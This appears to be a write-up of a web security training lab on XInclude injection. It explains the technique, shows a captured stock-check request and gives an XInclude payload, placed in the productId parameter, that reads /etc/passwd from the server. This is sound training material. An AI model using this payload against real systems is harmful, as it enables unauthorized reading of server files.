





# Exploiting XInclude to retrieve files

## Lab Description :


## Overview :
XInclude attacks
Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document. An example of this occurs when client-submitted data is placed into a back-end SOAP request, which is then processed by the backend SOAP service.

In this situation, you cannot carry out a classic XXE attack, because you don't control the entire XML document and so cannot define or modify a DOCTYPE element. However, you might be able to use XInclude.

XInclude is a part of the XML specification that allows an XML document to be built from sub-documents. You can place an XInclude attack within any data value in an XML document, so the attack can be performed in situations where you only control a single item of data that is placed into a server-side XML document.

To test for XInclude attacks, insert the following payload into the data entry point and see if the file that you requested gets sent back in the response body:
```
<example xmlns:xi="http://www.w3.org/2001/XInclude">
 <xi:include parse="text" href="file:///etc/hostname"/>
</example>
```
This piece of XML code does two things. First, it references the http://www.w3.org/2001/XInclude namespace so that we can use the xi:include element. Next, it uses that element to parse and include the /etc/hostname` file in the XML document

## Solution :
Clicking on checkstock feature sends the following POST request.
```html
POST /product/stock HTTP/2
Host: 0ad200c1031cd2e186b555c2000900e6.web-security-academy.net
Cookie: session=pH4FMMey7Y6ZHgKDWygdTWdJ3tsg1jGg
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ad200c1031cd2e186b555c2000900e6.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://0ad200c1031cd2e186b555c2000900e6.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

productId=1&storeId=1
```
Usually if an API accepts JSON data, then most probably it will also accept xml data too. We can change the content type by using content-type-converter 



In this lab sending JSON data didn't work.

Here we can't see any XML data being sent to the server but the lab description says that the checkstock feature embeds the user input inside a server-side XML document that is subsequently parsed.

There is no XML data that is visibly sent but if we try to insert %26entity;(%26 is url-encoded form of &, else it will consider value after & as another url parameter) , we get an XML error.



Since we don't control the entire XML document we can't define a DTD. In these kind of situations, we can use the XInclude tag.

Reference - ``https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xinclude-attacks``

Payload -
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

The xmlns:xi declaration defines the XML namespace xi as "http://www.w3.org/2001/XInclude." This namespace is used to indicate that the <xi:include> element is part of the XInclude specification.

The <xi:include> element specifies the inclusion of an external resource. The parse="text" attribute indicates that the included resource should be parsed as plain text. The href="file:///e /passwd" attribute specifies the location of the file to be included, in this case, /etc/passwd on the local filesystem.

So we enter this payload in the productID parameter to retreive the /etc/passwd file.

```
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```
We have now retreived the passwd file.



The lab is solved .



#### Visit The Next Page For The Next Level :)
